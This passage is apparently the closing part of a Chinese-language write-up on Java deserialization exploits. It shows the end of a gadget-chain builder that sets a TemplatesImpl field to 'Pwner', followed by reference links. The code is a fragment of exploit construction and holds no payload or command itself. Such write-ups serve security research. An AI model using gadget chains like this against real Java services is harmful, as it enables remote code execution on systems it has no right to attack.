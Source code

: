 ```java
    Reflections.setFieldValue(templates, "_name", "Pwner");

    return templates;
}


public static class Foo implements Serializable {

    private static final long serialVersionUID = 8207363842866235160L;
}

}
```


## **参考**

https://gist.github.com/frohoff/24af7913611f8406eaf3

https://sec.xiaomi.com/article/41
